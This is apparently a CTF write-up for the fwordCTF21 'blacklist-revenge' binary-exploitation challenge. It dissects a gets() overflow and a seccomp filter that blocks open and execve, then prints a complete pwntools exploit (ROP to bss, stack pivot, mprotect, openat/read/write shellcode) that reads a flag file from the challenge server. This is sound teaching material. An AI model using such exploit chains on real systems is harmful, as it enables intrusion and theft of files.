

Intro
Chit-chat
Been a while, huh?
This is a writeup for the blacklist-revenge challenge from fwordCTF21. Its a pretty cool challenge, with some lessons to teach, and even though the challenge was, admittedly fairly easy I feel it still has educational value. Thats why i’m here, of course.
My previous statement about the challenge being “fairly easy” sounds quite ironic when you realise that I was not the one who originally solved the challenge; that was someone else on my team. Although I quite believe I could have solved the challenge for the team, had he not been so fast.
The challenge
Now that i’m done rambling, whats up with the challenge?
The description reads:
It's time to revenge !
flag is in /home/fbi/flag.txt
Note : There is no stdout/stderr in the server , can you manage it this year?
With stdout + stderr disabled, this might pose a bit of a challenge when trying to exfiltrate the flag.
I did my usual which is running file and checksec on the binary, just to see what were dealing with:
[~/D/f/BlackList_Revenge] : file blacklist
blacklist: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=890009ffb99771b08ad8ac3971e9aef644bce402, for GNU/Linux 3.2.0, not stripped
[~/D/f/BlackList_Revenge] : checksec --file blacklist
[*] '/root/Documents/fword21/BlackList_Revenge/blacklist'
Arch: amd64-64-little
RELRO: Partial RELRO
Stack: Canary found
NX: NX enabled
PIE: No PIE (0x400000)
This is already pretty promising; no PIE AND statically linked. This means once we find an exploitable bug we can immediately start ropping, so lets take a look inside.
The binary
Starting from the beginning:
int __cdecl main(int argc, const char **argv, const char **envp)
{
init_0();
vuln();
return 0;
}
It looks pretty simple, nice. Lets check out init_0 first:
__int64 init_0()
{
int syscall_arr[6]; // [rsp+0h] [rbp-30h]
__int64 filter; // [rsp+20h] [rbp-10h]
unsigned int i; // [rsp+2Ch] [rbp-4h]
setvbuf(stdout, 0LL, 2LL, 0LL);
setvbuf(stdin, 0LL, 2LL, 0LL);
setvbuf(stderr, 0LL, 2LL, 0LL);
filter = seccomp_init(0x7FFF0000LL); // kill if encountered
syscall_arr[0] = 2; // open
syscall_arr[1] = 0x38; // clone
syscall_arr[2] = 0x39; // fork
syscall_arr[3] = 0x3A; // vfork
syscall_arr[4] = 0x3B; // execve
syscall_arr[5] = 0x142; // execveat
for ( i = 0; i <= 5; ++i )
(seccomp_rule_add)(filter, 0, syscall_arr[i], 0);
return seccomp_load(filter);
}
You can see we disable buffering on stdin + out + err. We then piece together and load a seccomp filter. Here we restrict several syscalls., including execve and its brother execveat, so no shells for us ;(. Lets dump the seccomp rules with seccomp-tools as well, just to be sure:
[~/D/f/BlackList_Revenge] : seccomp-tools dump ./blacklist
line CODE JT JF K
=================================
0000: 0x20 0x00 0x00 0x00000004 A = arch
0001: 0x15 0x00 0x0a 0xc000003e if (A != ARCH_X86_64) goto 0012
0002: 0x20 0x00 0x00 0x00000000 A = sys_number
0003: 0x35 0x00 0x01 0x40000000 if (A < 0x40000000) goto 0005
0004: 0x15 0x00 0x07 0xffffffff if (A != 0xffffffff) goto 0012
0005: 0x15 0x06 0x00 0x00000002 if (A == open) goto 0012
0006: 0x15 0x05 0x00 0x00000038 if (A == clone) goto 0012
0007: 0x15 0x04 0x00 0x00000039 if (A == fork) goto 0012
0008: 0x15 0x03 0x00 0x0000003a if (A == vfork) goto 0012
0009: 0x15 0x02 0x00 0x0000003b if (A == execve) goto 0012
0010: 0x15 0x01 0x00 0x00000142 if (A == execveat) goto 0012
0011: 0x06 0x00 0x00 0x7fff0000 return ALLOW
0012: 0x06 0x00 0x00 0x00000000 return KILL
From the top, we can see they limit syscalls to 64 bit versions rather than 32, pretty sure this is the default, so this means no int 0x80s allowed, so cant bypass the filter that way.
Lets now take a look at the vuln function:
__int64 __fastcall vuln()
{
char buf[64]; // [rsp+0h] [rbp-40h] BYREF
gets(buf);
return 0LL;
}
Classy, huh? I havent seen gets() used in a while so it was pretty cool to see it again. So to recap:
We have:
- No PIE, and statically linked; many gadgets available to us right out the door.
- Easy bof vulnerability on the stack.
- … But, we cant get a shell, so we have to use some combination of ORW, but using
openat instead of open to net us the flag.
Exploitation
My exploit is fairly simple. It has 3 stages:
- Overflow buffer, rop together a call to
read into the bss to load a stage 2. I do this because I dont want to deal with gets() and its badchars.
- Pivot the stack into the bss where a ropchain is waiting.
- The ropchain rwx’s the bss, then jumps to shellcode I had loaded after.
Here’s what it looks like:
from pwn import *
import string
context.arch = 'amd64'
script = '''
break *vuln+29
continue
'''
# Print out contents (only up to 0x50 bytes of it though for some reason :/) of a file.
shellcode = asm('''
mov rax, 0x101
mov rsi, rdi
xor rdi, rdi
xor rdx, rdx
xor r10, r10
syscall
mov rdi, rax
mov rax, 0
mov rsi, rsp
mov rdx, 0x50
syscall
mov rax, 1
mov rdi, 0
syscall
''')
def main():
# For our socket shellcode.
dataseg = 0x00000000004dd000
# Just inside read()
syscall = 0x457a00
# For stack pivot, because fuck gets()
pop_rbp = 0x41ed8f
leave = 0x0000000000401e78
rop = ROP("./blacklist")
elf = ELF("./blacklist")
# This is effected by bachars bcuz gets(), so im gonna load a stage2.
ropchain = flat(
# I CBA dealing with the stack, so bss instead :)
# read(0, dataseg, 0x1000)
rop.rdi.address,
0,
rop.rsi.address,
dataseg,
rop.rdx.address,
0x1000,
syscall,
pop_rbp,
dataseg+0x20, # +0x20 to leave room for filenames n shit
leave,
)
# This is not affected by badchars, bcuz read() :).
rop2 = flat(
path := b"/home/fbi/flag.txt\x00",
b"A"*(0x20 - (len(path) - 8)),
# shellcode here because rop is annoying.
# mprotect(dataseg, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC)
rop.rax.address,
0x0a,
rop.rdi.address,
dataseg,
rop.rsi.address,
0x1000,
rop.rdx.address,
7,
syscall,
# Return into our shellcode...
# Should srop into the somsled somewhere inside the GOT.
dataseg+125,
b"\x90"*50,
shellcode,
)
#p = process("./blacklist")
# nc 40.71.72.198 1236
p = remote("40.71.72.198", 1236)
#gdb.attach(p, script)
p.sendline(b"A"*72 + ropchain)
# read() doesnt need a newline
p.send(rop2)
# We should be recieving some data over stdin, which uses the same socket as stdout for comms with the server. So
# pretty much no difference between the 2.
buf = p.recvall()
# Clean output a lil
printable = ""
for b in buf:
for c in string.printable:
if b == ord(c):
printable += chr(b)
print(printable)
if __name__ == "__main__":
main()
Something I can suggest to fellow pwn-players is making use of pwntools; it asm function is extremely powerful, and automatic rop-gadget finding is extremely good, especially if you just CBA.
Some amongst you may have noticed something strange, specifically inside some of my shellcode:
; openat(0, "/home/fbi/flag.txt", O_RDONLY, 0);
mov rax, 0x101
mov rsi, rdi
xor rdi, rdi
xor rdx, rdx
xor r10, r10
syscall
; read(flag_fd, rsp, 0x50)
mov rdi, rax
mov rax, 0
mov rsi, rsp
mov rdx, 0x50
syscall
; write(0, rsp, 0x50)
mov rax, 1
mov rdi, 0
syscall
Specifically the last 2/3 lines. How on earth does that work? We know writing to stdin is possible, of course you can write into the stdin of another terminal session and ruin someones day, but how are we able to recieve it the same way we would recieve stdout from the server?
A tale of sockets and servers
This is, in all actuality pretty easy to explain. Take a look at this diagram:

here
A server, like the one our challenge was running on will listen for a connection, and wait in a loop, accept()ing any connections that come its way. accept() will then give the server a file descriptor which can be used to communicate with the client. Its important to note that this is FULL duplex; if I, as the server want to read OR write data to/from the client, I use this pipe as the sole medium to do so.
With this knowledge, we can look back on how our shellcode works. Since the write() is actually SENDING data to us, its irrelevant what file descriptor is used, because in the end the client will recieve the data over the same socket anyway. This essentially shows us that in a networked context stdin, stdout, and stderr are essentially exactly the same thing (one socket to rule them all).
Btw if I got anything wrong above, feel free to correct me, but thats my understanding.
Another thing, earlier I mentioned that stdout and stderr are closed in this challenge. This is not true of the local binary, so im not actually sure how this is implemented but its definitely only server side.
Closing thoughts
A hacker has to think outside the box, wether you do pwn, crypto, web, or rev (or all of them) each requires the hacker mindset.
In our shellcode, for example we could have just created a NEW socket to transmit the flag over, but why would we do that when we already have a perfectly usable socket already created?
I probably need to get better at thinking this way, since the idea did not even cross my mind.
Thanks for sticking around this far, if you did.
References
- https://man7.org/linux/man-pages/man2/accept.2.html
- https://www.cs.uregina.ca/Links/class-info/330/Sockets/sockets.html
- https://man7.org/linux/man-pages/man2/seccomp.2.htm